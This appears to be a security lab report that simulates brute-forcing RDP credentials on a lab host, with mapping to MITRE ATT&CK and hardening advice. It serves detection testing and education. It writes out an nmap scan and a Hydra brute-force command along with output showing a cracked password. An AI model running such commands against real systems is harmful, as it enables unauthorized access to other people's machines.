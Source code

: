 # Scenario
This report will demonstrate the tactics and techniques used by an attacker to identify endpoints accessible via Remote Desktop Protocol (RDP) and subsequently obtain valid credentials through the use of brute-force tools. The username of the victim was obtained using OSINT techniques, and the target organization was found to have a weak password policy, allowing commonly used password lists to be leveraged effectively.

As part of this demonstration, Network Level Authentication (NLA) will be deliberately disabled, which represents a significant security misconfiguration. Without NLA, RDP connections can proceed to the full graphical login interface without verifying credentials at the network layer. This not only exposes the system to brute-force attempts but also increases the risk of exploitation through unauthenticated RDP vulnerabilities.

The combination of weak password policies, exposed RDP access, and the absence of NLA creates a high-risk scenario that attackers can easily exploit to gain unauthorized access to internal systems. This report aims to simulate such an attack chain to generate security events for detection validation and highlight the importance of RDP hardening measures.

# Tools Used
Hydra
Kali Linux

# Attack steps
1. Identify Vulnerable endpoints on a network
Command used: `nmap -p 3389 192.168.1.113`
2.Target the RPC endpoint with known username and password list
Command Used: `hydra -t 1 -V -f -l attackerlab -P password_lists  rdp://192.168.1.113`
Output `Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-08-25 06:40:13
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 1 task per 1 server, overall 1 task, 10 login tries (l:1/p:10), ~10 tries per task
[DATA] attacking rdp://192.168.1.113:3389/
[ATTEMPT] target 192.168.1.113 - login "attackerlab" - pass "password" - 1 of 10 [child 0] (0/0)
[ATTEMPT] target 192.168.1.113 - login "attackerlab" - pass "123456" - 2 of 10 [child 0] (0/0)
[3389][rdp] host: 192.168.1.113   login: attackerlab   password: 123456
[STATUS] attack finished for 192.168.1.113 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-08-25 06:40:16

# MITRE ATT&CK Framework Mapping

The brute force attack on RDP credentials demonstrated in this report aligns with specific techniques outlined in the MITRE ATT&CK framework, which is widely used for categorizing and understanding adversary tactics and techniques.

T1110 - Brute Force:
This technique involves the repeated guessing of passwords or credentials to gain unauthorized access. In this demonstration, we leveraged brute force tools to systematically attempt password combinations against the Remote Desktop Protocol service.

T1021.001 - Remote Services: Remote Desktop Protocol (RDP):
This sub-technique under Remote Services describes the use of RDP as a method for lateral movement or initial access. The attack exploited exposed RDP endpoints with weak or guessable credentials to gain unauthorized access.

# Summary & Recommendations

This demonstration highlights how a combination of exposed RDP services, weak passwords, and lack of Network Level Authentication (NLA) significantly increase an organization's attack surface. Attackers can leverage automated tools such as Hydra to quickly compromise systems, potentially gaining persistent internal access.

Key recommendations include:

Enable Network Level Authentication (NLA): This adds a pre-authentication layer that blocks unauthenticated connections and mitigates brute-force attacks.

Implement strong password policies: Enforce complex passwords and regular changes to reduce the effectiveness of password lists.

Limit RDP exposure: Restrict RDP access using firewalls or VPNs to prevent unauthorized external access.

Monitor logs and alerts: Ensure SIEM and intrusion detection systems are tuned to detect repeated failed RDP login attempts.

